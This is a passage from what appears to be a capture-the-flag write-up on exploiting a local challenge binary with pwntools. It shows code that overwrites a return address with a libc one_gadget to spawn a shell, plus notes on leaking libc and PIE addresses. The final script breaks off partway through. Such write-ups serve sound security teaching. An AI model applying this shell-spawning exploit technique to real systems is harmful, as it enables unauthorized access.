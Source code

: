 ![](one-gadgets.png)

Now we can try each of these gadgets to see if they in fact spawn a shell. In order to write the address of the `one_gadget` to spawn a shell, we can write a simple function. 

```python
def write_target(target, contents):
    p.sendline(b'3')
    p.sendline(target)
    p.sendline(contents)
    
one_gadgets = [0xe6c7e, 0xe6c81, 0xe6c84]
shell = str(libc.address + one_gadgets[1]).encode()    

write_target(b'-3', shell)
p.interactive()
```

And the second gadget worked and we get a shell! Awesome! If you want, to see why the first gadget didn't work, you can attach GDB to the program using pwntools and break at the point the `one_gadget` is called. Then, you can inspect the registers to see what constraints are or aren't satisfied. The final exploit script looks like this. 

```python
from pwn import *
import pwnlib

elf = context.binary = ELF('chall_patched')
libc = context.binary = ELF('libc.so.6')
p = process(['./ld-2.31.so', './chall_patched'])
gdb_script = """
init-pwndbg
piebase
break *performAction 
"""
# pwnlib.gdb.attach(p, gdb_script)

# p.sendline(b'urmom')
# Libc leak @ target 13 (__libc_start_main + 243)
# PIE leak @ target -1 (If one gadget works, not needed)
# performAction ret addr to overwrite is target -3 

def print_target(target):
    p.sendline(b'4')
```